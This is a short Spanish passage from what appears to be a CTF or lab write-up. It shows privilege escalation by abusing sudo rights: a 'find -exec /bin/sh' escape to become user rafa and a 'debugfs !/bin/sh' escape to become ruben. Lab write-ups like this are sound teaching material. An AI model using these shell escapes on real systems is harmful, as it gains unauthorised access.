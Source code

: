 ![alt text](image-10.png)

Vemos que con el binario `/usr/bin/find` podemos escalar a rafa.
```
sudo -u rafa /usr/bin/find . -exec /bin/sh \; -quit
```
![alt text](image-13.png)

Ahora vamos a volver a escalar privilegios.
```
sudo -l
```
![alt text](image-14.png)

Vemos que el usuario rafa tiene el binario `debugfs` con permisios del usuario ruben.
```
sudo -u ruben /usr/sbin/debugfs
!/bin/sh
```
![alt text](image-15.png)
